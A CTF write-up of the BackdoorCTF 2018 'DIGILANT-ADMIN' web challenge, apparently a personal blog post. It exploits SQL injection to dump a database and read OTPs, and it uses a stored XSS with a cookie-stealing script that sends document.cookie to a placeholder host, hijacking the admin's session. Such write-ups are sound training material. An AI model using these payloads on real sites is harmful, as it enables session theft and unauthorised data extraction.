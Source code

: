```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author: crisis
---
```


Here's my solution for the DIGILANT-ADMIN challenge of the *2018 BackdoorCTF*. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email address, and then log in with the OTP sent to that email address.
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated:
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection:
![](https://i.imgur.com/2pIbQat.png)

I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:
![](https://i.imgur.com/zXCRAmp.png)

Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:
![](https://i.imgur.com/87bPuIJ.png)
etc.
![](https://i.imgur.com/TlhkZJE.png)
etc.

And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- -
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.
In the dump of the database, I noticed that many people had reported URLs like this:
![](https://i.imgur.com/UQigMAO.png)

That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:
![](https://i.imgur.com/m3cyYe3.png)

You just had to access your post's URL with `&full=true` appended to it:
![](https://i.imgur.com/L8RjsKN.png)

I made a new one with the standard
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:
![](https://i.imgur.com/6kwpoqS.png)

I modified my cookie, but got kicked out:
```
Login attempted from another IP address. Login again
```
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:
![](https://i.imgur.com/gFq9PJw.png)

I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):
![](https://i.imgur.com/sBZPX8Z.png)

Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :
![](https://i.imgur.com/1jyENgf.png)
